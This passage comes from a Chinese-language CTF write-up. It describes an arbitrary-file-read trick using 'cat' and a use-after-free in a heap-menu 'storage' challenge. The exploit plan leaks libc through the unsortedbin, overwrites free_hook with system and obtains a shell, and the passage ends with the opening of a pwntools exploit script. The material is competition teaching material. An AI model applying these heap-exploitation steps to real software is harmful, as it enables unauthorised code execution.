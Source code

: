 echo 就是个复读机,没啥意思.

![image-20210726110435731](https://i.loli.net/2021/07/26/SGBLU6EDdCz5MsI.png)

cat能实现任意文件读取, 但是限制了字符`.`, 读不了`flag.txt`,

> 其实还有个没有`.`的flag, gross2题目的flag, 但是又没给名字, 猜不到文件名字
>
> 感觉可能他这个出题思路应该是一个flag有., 一个没有, 这样逆向到cat有一个flag, pwn拿到shell一个flag,放题整错了吧...

![image-20210726110509282](https://i.loli.net/2021/07/26/XvA73GHzOxjWtQb.png)

![image-20210726110523790](https://i.loli.net/2021/07/26/C7bL4P1DaUJI8GF.png)

#### storage

看起来就不太对的一个文件, 逆向完os的sysccall以后还跟队友说, `"我觉得这个改改可以出堆菜单题啊"`, 结果:

storage_main函数, 这里细节还是有些问题, 没调整太好,但是基本可以看到是个堆菜单题,

![image-20210726111732798](https://i.loli.net/2021/07/26/B2Z4qtKuSg7VYQy.png)

基本是常规的, 没有啥检测和限制, free里面有个uaf, 随意读取和修改,

![image-20210726111902171](https://i.loli.net/2021/07/26/Uwl8KCWAdhiHaED.png)

### 利用

就是先从shell切到storage, 然后一个啥检测也没有uaf的洞, 先拿一个0x500的chunk, 仍unsortedbin, 得到main_arean, 然后得到malloc_hook, 通过这个低三位可以查到六个libc, 这里把free_hook改成了puts, 然后远程测试出来一个打印出/bin/sh的就是对的, ubuntu 2.27-1.4就是远程的, puts直接改成system就可以拿到shell了, 

exp如下, 拿到shll就有个gross1和gross2的flag了

```python 
from pwn import * 

def init():
    sla("shell(0)<", "SPAWN")
    ru(" Enter process name")
    sla("shell(0)<", "storage")
    sla("shell(0)<", "EXIT")

def add(idx, size):
    sla(")< ", "1")
    sla(")< ", str(idx))
    sla(")< ", str(size))

def dele(idx):
    sla(")< ", "2")
    sla(")< ", str(idx))

def show(idx):
    sla(")< ", "4")
    sla(")< ", str(idx))

def edit(idx, data):
    sla(")< ", "3")
    sla(")< ", str(idx))
    sla(")< ", data)

def exp():
    init()
    add(0, 0x500)
    add(1, 0x20)
    dele(0)
```